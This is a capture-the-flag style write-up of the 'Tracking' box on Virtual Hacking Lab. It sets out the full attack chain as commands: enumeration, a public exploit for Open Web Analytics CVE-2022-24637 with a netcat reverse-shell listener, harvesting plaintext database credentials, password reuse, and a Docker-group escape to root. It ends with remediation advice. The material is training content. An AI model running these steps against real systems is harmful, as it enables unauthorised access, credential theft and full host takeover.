#  Tracking - Virtual Hacking Lab

| Info          | Details                                                                                                    |
| ------------- | ---------------------------------------------------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                                                                        |
| Difficulty    | Advanced                                                                                                   |
| Target IP     | 10.11.1.90                                                                                                 |
| OS            | Linux                                                                                                      |
| Vulnerability | OWA RCE (CVE-2022-24637), Docker group privilege escalation                                                |
| Tools Used    | Nmap, Gobuster, Searchsploit, dirsearch, CVE-2022-24637, netcat, python3, mysql, msqldump, Linpeas, Docker |

## Attack Path

1. Nmap identified open services on ports 22, 80, and 81.
2. Gobuster and dirsearch enumerated web content; Drupal on port 80 and OWA on port 81.
3. Searchsploit identified CVE-2022-24637 for OWA 1.7.3; GitHub PoC sourced and executed.
4. Reverse shell obtained as www-data; shell stabilised via Python PTY.
5. owa-config.php revealed OWA database credentials in plaintext.
6. Drupal settings.php revealed additional database credentials in plaintext.
7. MySQL database dumped using Drupal credentials; 'tracking' user credentials discovered.
8. Password reuse confirmed — OS login succeeded as 'tracking' user.
9. 'id' revealed docker group membership for the 'tracking' user.
10. GTFOBins Docker escape executed; host filesystem mounted in privileged container.
11. Root shell obtained on host. Flag retrieved from /root/key.txt.

## Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

```bash
mkdir tracking
cd tracking
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='10.11.1.90'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: 
- Port 22/TCP - SSH service identified (OpenSSH)
- Port 80/TCP - HTTP service running Drupal 9
- Port 81/TCP - Secondary HTTP Service
## Web Enumeration

**Web App Enumeration 1**: The primary web application on port 80 was identified as Drupal 9. 



Web directory brute-forcing was conducted using Gobuster and dirsearch to identify hidden content and administrative interfaces..

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```



Discovered Directories:

```bash
/user/login
```

Results:  /user/login — Drupal login page identified

No additional high-value content was discovered on port 80. Drupal 9 was noted but no exploitable vulnerability was
identified. Enumeration focus shifted to port 81.

**Web application enumeration 2**: The secondary web application on port 81 was identified as **Open Web Analytic**



**Results**: The secondary web application on port 81 was identified as Open Web Analytics (OWA) version 1.7.3. OWA is a
self-hosted analytics platform. This version is known to be vulnerable to a critical unauthenticated remote code execution
vulnerability.
## Vulnerability Search

Searchsploit was used to search for known vulnerabilities in **Open Web Analytics** 

```bash
searchsploit open web analytics
```



Results:
- EDB-ID 51026 - Open Web Analytics 1.7.3 - Remote Code Execution. 

```bash
searchsploit -m 51026
```

**Results**: After the Searchsploit exploit failed.

An alternative proof-of-concept was sourced from GitHub targeting the same CVE (CVE-2022-24637). The exploit was reviewed, understood, and executed against the target with a netcat listener prepared on the attacker machine.

```bash
git clone https://github.com/0xRyuk/CVE-2022-24637.git

cd CVE-2022-24637

# Learn the code functions
mousepad exploit.py

# Code execution
python3 exploit.py -u admin -u admin http://10.11.1.90:81

# Open a nc listener
sudo nc -lnvp 4444
```



**Results**: The exploit successfully triggered unauthenticated RCE against OWA 1.7.3. A reverse shell callback was received on the netcat listener, granting initial access to the target system as the www-data user.

# Privilege Escalations

## Shell Stabilisation & User Enumeration

The initial reverse shell was upgraded to a fully interactive TTY for stability and usability. Basic user context was
established.

```bash
# Stabilized shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# User identifier
whoami
id
```



Results: Identified as **www-data**

In `/var/www/html/owa/owa-config.php` found database username and passwords

```bash
owa::Str0n9Pas$worD
```



The Drupal CMS configuration file was inspected for database credentials:

```bash
cat /var/www/html/drupal/sites/default/settings.php
```



Using the Drupal database credentials, the MySQL database was accessed via mysqldump to enumerate database
contents and discover user accounts. The /home directory had previously revealed a 'tracking' user, making the database
a priority target.


```bash
# Since in /home directory found tracking user, see if i could find any tracking user passwords
mysqldump -u drupal drupal -p
Dr0oPaAlpsSwd
```



Results: found user tracking and passwords
`tracking::TracK!n9AdmiN`

## Lateral Movement

The recovered credentials were tested against the system 'tracking' account via su. This represents a credential reuse
scenario where application or database credentials are also valid for OS-level authentication.

```bash
su tracking
# Password: TracK!n9AdmiN

# Identified User
whoami
id
```



**Results:** The `id` command output revealed that the 'tracking' user is a member of the docker group. Docker group membership is equivalent to root access and is a well-documented privilege escalation vector listed in GTFOBins.

## Privilege Escalation via Docker Group

The GTFOBins reference documents that Docker group membership can be exploited to mount the host file system inside a privileged container, effectively providing root access to the host operating system. The alpine image was used to spawn a root shell with the host filesystem mounted at /mnt.

```bash
## from gtfobin found this command
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh
```



Results: The command successfully spawned a root shell with full access to the host file system. Root privilege escalation was
confirmed. And successfully retrieved the flags.


# Findings & Remediation

## 1.Unauthenticated RCE in Open Web Analytics (CVE-2022-24637)

### Remediation
- Update Open Web Analytics to the latest patched version immediately.
- If no patch is available, remove or isolate the OWA installation from public access.
- Implement a Web Application Firewall (WAF) to detect and block exploit patterns.
- Restrict access to internal analytics applications using network-level controls and IP allowlisting.
- Apply the principle of least privilege — ensure the web server process runs with minimal permissions.
- Conduct regular vulnerability scans of all internet-facing applications.

## 2. Docker Group Membership Privilege Escalation

### Remediation
- Remove the 'tracking' user from the docker group immediately: `gpasswd -d tracking docker`
- Audit all users with docker group membership: grep docker `/etc/group`
- Implement rootless Docker mode to prevent container escapes from leading to host root access.
- Use Docker socket access controls and restrict `/var/run/docker.sock` permissions.
- Apply Linux Security Modules (SELinux/AppArmor) with Docker-specific profiles.
- Only grant docker group membership to explicitly authorised system administrators.
- Periodically audit group memberships as part of an access review process

## 3. Cleartext Credentials in owa-config.php & Drupal settings.php

### Remediation
- Set settings.php to read-only and restrict access: `chmod 444 settings.php`
- Move database credentials to environment variables using Drupal's `$settings['hash_salt']` and environment-based
- configuration.
- Rotate the database password and ensure uniqueness across all services.
- Restrict database access to localhost or specific trusted hosts via MySQL bind-address configuration.
- Implement database firewall rules to block direct external connections.

## 4. Password Reuse Across Database and OS Accounts

### Remediation

- Enforce a strict password uniqueness policy — application, database, and OS credentials must never be shared.
- Implement a password manager or privileged access management (PAM) solution to enforce unique credentials.
- Rotate all passwords found during this assessment immediately.
- Consider implementing multi-factor authentication (MFA) for OS-level user logins via PAM modules.
- Conduct a credential audit across all systems to detect and remediate reuse.
